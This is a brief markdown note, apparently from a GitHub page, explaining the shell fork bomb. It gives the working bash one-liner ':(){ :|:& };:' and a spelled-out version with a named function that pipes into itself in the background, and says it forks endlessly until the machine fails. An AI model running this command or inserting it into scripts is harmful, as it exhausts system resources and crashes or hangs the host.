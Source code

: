 # Shell Fork Bomb

## Fork Bomd

- `:(){ :|:& };:`
  - This line keeps calling function to fork itself and blow up your machine
- Clear explanation

  ```bash
  my_function(){
      my_function | my_function&
  };
  my_function
  ```

